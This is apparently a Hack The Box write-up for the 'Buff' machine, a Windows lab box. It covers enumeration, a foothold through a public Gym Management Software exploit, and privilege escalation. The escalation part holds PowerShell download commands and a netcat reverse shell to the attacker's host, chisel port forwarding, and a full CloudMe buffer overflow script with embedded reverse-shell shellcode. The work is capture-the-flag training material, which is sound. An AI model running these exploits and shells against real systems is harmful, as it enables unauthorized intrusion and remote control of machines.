 ![Pasted image 20230714105235](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/0e7f954a-3dca-4b74-b989-70ba6e4e4ca2)


# Enumeration
```
Nmap scan report for 10.129.2.18
Host is up (0.011s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-title: mrb3n's Bro Hut
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests

NSE: Script Post-scanning.
```
Windows server with only a web service running on port 8080

Checking out the website, it is running "Gym Management Software 1.0"
![Pasted image 20230714105743](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/4a76e346-049e-4bba-ad40-2bbcccd08e29)

# Foothold
Looking into the version, there is a vulnerability on exploitdb that should work. It needed a few changes to get it to work, but eventually I was able to run the program correctly:

![Pasted image 20230714111735](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/4b1cb286-fead-4847-a920-94c3f83b2af2)

Nice! That's the user!
> Note: ChatGPT is a great tool for walking through any script that you don't understand and can even be used to make changes.

# PrivEsc
I first need a better shell. I can't change directory in this one. I can only run commands from here and that's not super helpful...

```powershell
powershell Invoke-WebRequest -Uri http://10.10.14.59:1337/nc.exe -OutFile C:\xampp\htdocs\gym\upload\nc.exe
```

After uploading the nc.exe binary, I can use it to get a better shell back to me:
```
nc.exe 10.10.14.135 4443 -e powershell
```

Now I have a better shell! Time to snoop. 

Found an interesting bat file:
```
PS C:\Users\shaun\Downloads> dir
dir


    Directory: C:\Users\shaun\Downloads


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----       16/06/2020     16:26       17830824 CloudMe_1112.exe                                                              


PS C:\Users\shaun\Downloads>
```

It has a buffer overflow vulnerability according to google... 
This part ended up being a major headache for me personally. I needed to set up port forwarding to get this to work, but everything I found online was either missing key information or was WAAAAAY more complicated than necessary for this task. 
After reviewing what I had done so far, I created a stable shell on the box, then I needed to set up port forwarding so I can send traffic to the port on 8888. The reason for this is that the port is "open" but only to traffic directly from the local host. I can use a program called Chisel to send traffic over a forwarded port. 

Github repo for the Chisel:
https://github.com/jpillora/chisel/releases
On my linux machine, download the correct one, use `gunzip` to decompress the file, and run the following command:
```
./chisel server -p 9999 --reverse
```
This sends traffic from my machine over port 9999 out to another host

Now upload the windows binary for chisel and send it to the windows machine. It needs to be placed in a different folder. the downloads folder for the user Shaun works great. Use the same powershell command for nc.exe to get chisel.exe on the box:
```powershell
powershell Invoke-WebRequest -Uri http://10.10.14.59:1337/chisel.exe -OutFile C:\Users\shaun\Downloads\chisel.exe
```

Then I can run it with the following command (if my reverse shell is using powershell as above):
```powershell
\chisel.exe client 10.10.14.59:9999 R:8888:127.0.0.1:8888
```
This opens a connection back to my machine on port 9999, and tells it to send the traffic to the local host IP over port 8888 which is what CloudME is using. Now I need to modify the buffer overflow code. 

Modifying the public exploit online, I get this python script:
```python 
import socket
import sys
target = "127.0.0.1"
padding1 = b"\x90" * 1052
EIP = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS = b"\x90" * 30
#msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.59 LPORT=4444 EXITFUNC=thread -b "\x00\x0d\x0a" -f python
payload =  b""
payload += b"\xdb\xdb\xd9\x74\x24\xf4\x5d\xbe\xab\xcf\xd7\x1e"
payload += b"\x29\xc9\xb1\x52\x31\x75\x17\x03\x75\x17\x83\x6e"
payload += b"\xcb\x35\xeb\x8c\x3c\x3b\x14\x6c\xbd\x5c\x9c\x89"
payload += b"\x8c\x5c\xfa\xda\xbf\x6c\x88\x8e\x33\x06\xdc\x3a"
payload += b"\xc7\x6a\xc9\x4d\x60\xc0\x2f\x60\x71\x79\x13\xe3"
payload += b"\xf1\x80\x40\xc3\xc8\x4a\x95\x02\x0c\xb6\x54\x56"
payload += b"\xc5\xbc\xcb\x46\x62\x88\xd7\xed\x38\x1c\x50\x12"
payload += b"\x88\x1f\x71\x85\x82\x79\x51\x24\x46\xf2\xd8\x3e"
payload += b"\x8b\x3f\x92\xb5\x7f\xcb\x25\x1f\x4e\x34\x89\x5e"
payload += b"\x7e\xc7\xd3\xa7\xb9\x38\xa6\xd1\xb9\xc5\xb1\x26"
payload += b"\xc3\x11\x37\xbc\x63\xd1\xef\x18\x95\x36\x69\xeb"
payload += b"\x99\xf3\xfd\xb3\xbd\x02\xd1\xc8\xba\x8f\xd4\x1e"
payload += b"\x4b\xcb\xf2\xba\x17\x8f\x9b\x9b\xfd\x7e\xa3\xfb"
payload += b"\x5d\xde\x01\x70\x73\x0b\x38\xdb\x1c\xf8\x71\xe3"
payload += b"\xdc\x96\x02\x90\xee\x39\xb9\x3e\x43\xb1\x67\xb9"
payload += b"\xa4\xe8\xd0\x55\x5b\x13\x21\x7c\x98\x47\x71\x16"
payload += b"\x09\xe8\x1a\xe6\xb6\x3d\x8c\xb6\x18\xee\x6d\x66"
payload += b"\xd9\x5e\x06\x6c\xd6\x81\x36\x8f\x3c\xaa\xdd\x6a"
payload += b"\xd7\xdf\x2b\x7a\x1c\x88\x29\x82\x73\x14\xa7\x64"
payload += b"\x19\xb4\xe1\x3f\xb6\x2d\xa8\xcb\x27\xb1\x66\xb6"
payload += b"\x68\x39\x85\x47\x26\xca\xe0\x5b\xdf\x3a\xbf\x01"
payload += b"\x76\x44\x15\x2d\x14\xd7\xf2\xad\x53\xc4\xac\xfa"
payload += b"\x34\x3a\xa5\x6e\xa9\x65\x1f\x8c\x30\xf3\x58\x14"
payload += b"\xef\xc0\x67\x95\x62\x7c\x4c\x85\xba\x7d\xc8\xf1"
payload += b"\x12\x28\x86\xaf\xd4\x82\x68\x19\x8f\x79\x23\xcd"
payload += b"\x56\xb2\xf4\x8b\x56\x9f\x82\x73\xe6\x76\xd3\x8c"
payload += b"\xc7\x1e\xd3\xf5\x35\xbf\x1c\x2c\xfe\xdf\xfe\xe4"
payload += b"\x0b\x48\xa7\x6d\xb6\x15\x58\x58\xf5\x23\xdb\x68"
payload += b"\x86\xd7\xc3\x19\x83\x9c\x43\xf2\xf9\x8d\x21\xf4"
payload += b"\xae\xae\x63"

overrun = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))

buf = padding1 + EIP + NOPS + payload + overrun

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(buf)
except Exception as e:
	print(sys.exc_value)
```
The only portion I edited was the shell code using the script shown. 

Then I run the code and... 
```
$ nc -lnvp 4444
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.2.18.
Ncat: Connection from 10.129.2.18:49687.
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
buff\administrator
```

That's Buff PWNED!

